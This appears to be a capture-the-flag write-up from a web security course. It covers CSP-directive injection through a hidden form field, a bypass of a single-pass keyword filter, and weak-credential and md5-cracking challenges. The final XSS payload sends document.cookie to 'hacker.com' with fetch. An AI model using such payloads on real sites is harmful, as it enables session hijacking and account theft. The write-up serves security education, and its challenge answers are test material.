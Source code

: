 The input form offers the capability to change logo:

```
<!-- boss told me we should have eastern eggs. there's not enough memes @quoccabank. did you know we also have /images/quocca.jpg -->
<input type="hidden" name="logo" value="/images/qb.svg" />
```

If we change this to `/images/quocca.jpg`, the `img-src` in CSP gets modified to `img-src https://products.quoccabank.com/favicon.ico https://products.quoccabank.com/images/quocca.jpg;`. This means it's potentially vulnerable to injection.

Since `script-src` already exists before the `img-src` directive. We can't override `script-src`, but we can modify the new and more specific `script-src-attr` directive.

Some bad words are also filtered (but only removed by scanning once in the reflected query), but we can easily bypass this. E.g., if `script` is removed, we can use `scriscriptpt` to get `script`.

Final payload:

```
logo: ; script-src-attr 'unsafe-inline'; connect-src: https:;
search: <img src=x ononerrorerror=fetch('https://hacker.com/'+document.cookie)>
```

Report page to admin and profit :)

### logmein

Trivial crypto (since we didn't really cover any advanced crypto algorithms and vulnerabilities in the lecture)

```
<h2>I like logging in.</h2>

<form action="/" method="POST">
<table>
<tr>
  <td>Username</td><td><input name="username" type="text"></td>
</tr>
<tr>
  <td>Password</td><td><input name="password" type="text"></td>
</tr>
<tr>
  <td></td><td><input type="submit"></td>
</tr>
</table>
</form>

<!-- Stuck? What do you think might be the password for an account called "admin"? -->
```

- **Flag 1** (weak credentials): login with `admin/admin`. This gives us first flag and `Great job. The password hash of the second user, flag2, is 797cb93f8b1159e6dc68b2b7fddd6c55. Can you find the second flag?`
- **Flag 2**: Brute-force that hash (or just google it). It's md5 of `Password01`. Logging in with `flag2/Password01` yields second flag and `Now, try to log in as flag3. The password is a string, where md5(string) begins with XXXXXX`. XXXXXX is a randomly-generated 6-char string.
